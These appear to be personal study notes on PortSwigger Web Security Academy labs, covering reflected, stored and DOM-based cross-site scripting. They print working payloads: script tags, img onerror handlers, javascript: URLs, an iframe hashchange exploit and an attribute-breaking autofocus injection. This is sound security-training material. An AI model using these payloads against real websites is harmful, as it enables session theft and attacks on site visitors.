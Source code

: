 ____

# Reflected XSS into HTML

The value of the **search** request parameter is copied into the HTML document as plain text between tags. 
```js
<script>alert(1)</script> 
```
This input was echoed unmodified in the application's response.


# Stored XSS into HTML 

In the comment section,
```js
<script>alert(1)</script> 
```

# DOM XSS in `document.write` sink using source `location.search`

![[Pasted image 20240803072009.png]]

```html
"><script>alert(1)</script>
```

![[Pasted image 20240803072133.png]]

# DOM XSS in `innerHTML` sink using source `location.search`

Data is read from **location.search** and passed to **element.innerHTML**.

```js
<img src onerror=alert(1)>
```


# DOM XSS in jQuery anchor `href` attribute sink using `location.search` source

The application may be vulnerable to DOM-based link manipulation. Data is read from **location.search** and passed to **jQuery.attr.href**.

```js
javascript:alert(1)
```

![[Pasted image 20240803074347.png]]

# DOM XSS in jQuery selector sink using a hashchange event

```js
#<img src onerror=alert(1)>
```

```html
<iframe src="https://0a7700c6030ec6b582e3533b006c00b1.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```

# Reflected XSS into attribute with angle brackets HTML-encoded

```html]
"><script>alert(1)</script>
```

The value of the **search** request parameter is copied into the value of an HTML tag attribute which is encapsulated in double quotation marks. The payload **uy0y9"onfocus="alert(1)"autofocus="zkgoa** was submitted in the search parameter.



